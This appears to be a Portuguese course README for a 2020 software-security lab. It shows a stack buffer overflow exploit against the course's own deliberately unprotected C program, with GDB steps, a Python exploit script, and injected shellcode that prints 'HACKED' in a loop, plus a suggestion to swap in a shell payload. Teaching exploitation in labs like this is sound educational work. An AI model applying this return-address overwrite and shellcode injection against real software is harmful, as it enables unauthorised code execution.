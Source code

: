 # Segurança de Software 2020

## 1 - HACKED VIRUS
### Descrição
Ataque por Buffer Overflow a um programa em C que lê ficheiro e escreve o seu conteúdo em memória.

#### Compilação
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack stack.c -o stack
```

#### Ferramentas utilizadas
* [GDB GEF](https://github.com/hugsy/gef) - Debbug
* [Python](https://www.python.org/) - Desenvolvimento do exploit
* [Objdump](https://sourceware.org/binutils/docs/binutils/objdump.html) - Visualização

#### Ficheiros auxiliares
* teste_stack_exec.c - Verificar compilação.
* findPrintf.c - Encontrar endereço da função printf.
* Virus.c - Para compilar o virus pretendido.

#### Passos
* Visualização do código fonte (stack.c)
```c
void foo(char *str, int s)
{
    char buffer[32];
    /* buffer overflow here */
    cpy(buffer, str, s);
}
```
* Causa erro
```bash
python -c 'print "A"*8*5' > smasher; ./stack
```
* Debbug (GDB)
```bash
gdb stack
```
Meter um BreakPoint no fim da função foo, antes de haver um retorno à main e correr.
```bash
gef> disas foo
```
```bash
gef> b * 0x0000000000401198
```
```bash
gef> run
gef> fin
```
Como se pode ver na imagem seguinte,  o $rip (0x0000000000401206) está a apontar para a posição de memória da função main, de forma a continuar o fluxo de programa normalmente. Vamos tentar perceber em que sitio da memoria este apontador está.

![Image 1](Lib/1.png)

 Vamos agora ver com mais atenção o conteúdo da stack, utilizando como referencia o $rdi.
 ```bash
gef> x/100x 0x00007fffffffdf90 - 32
```
Como podemos ver na imagem seguinte, encontrámos os nossos  32 "A"'s (0x41) na stack, será que encontramos também o endereço de retorno? Terá que conter, como já vimos, o endereço: 0x0000000000401206
Na imagem seguinte encontramos o nosso target!

![Image 2](Lib/2.png)

Assim sendo, podemos agora concluir que para escrever o nosso exploit de forma a que corra o nosso vírus, teremos que chegar à posição de retorno e escrever lá um endereço a nosso favor. Para além dos 32 bytes do buffer, temos ainda o $ebp com 8 bytes. sendo os próximos 8 bytes para o endereço de retorno. 

* Compilar virus
Vamos compilar o nosso virus e passá-lo para hexadécimal de forma a ser mais fácil a sua inserção no ficheiro.
```bash
gcc -D_FORTIFY_SOURCE=0 -W -no-pie -fno-stack-protector -z execstack virus.c -o virus
```
Agora vamos copiar o código assembly para um ficheiro.
```bash
objdump virus -d
```
Vamos então começar a escrever o nosso exploit em Python
```python
buf = ('A' * 32).encode() #41
ebp = ('B' * 8).encode()  #42
call_virus = b'\xc0\xdf\xff\xff\xff\x7f\x00\x00'

virus =  b'\x55\x48\x89\xe5\x48\x83\xec\x20'
virus += b'\x89\x7d\xec\x48\x89\x75\xe0\xc6'
virus += b'\x45\xf8\x48\xc6\x45\xf9\x41\xc6'
virus += b'\x45\xfa\x43\xc6\x45\xfb\x4b\xc6'
virus += b'\x45\xfc\x45\xc6\x45\xfd\x44\xc6'
virus += b'\x45\xfe\x0a\xc6\x45\xff\x00\x48'
virus += b'\x8d\x45\xf8\x48\xba\x20\xea\xe4'
virus += b'\xf7\xff\x7f\x00\x00\x48\x89\xc7'
virus += b'\xb8\x00\x00\x00\x00\xff\xd2\xeb'
virus += b'\xe6\x0f\x1f\x44\x00\x00\x00\x00'

exploit = (buf + ebp + call_virus + virus)

file_name = 'smasher'
f = open(file_name, 'wb') #write bytes
f.write(exploit)
f.close()
```

Vamos então ver se resultou.

```bash
python exploit.py
gdb stack
gef> run
#HACKED
#HACKED
#HACKED
#HACKED
#...
```
# Video
<video src="https://www.youtube.com/watch?v=kXfYOLqtfGQ&t=" width="320" height="200" controls preload></video>

# EXTRA!

 No ficheiro exploit.py experimente correr uma shell!
 
 ```python
#exploit = (buf + ebp + call_virus + virus)
exploit = (buf + ebp + call_virus + shell)
 ```
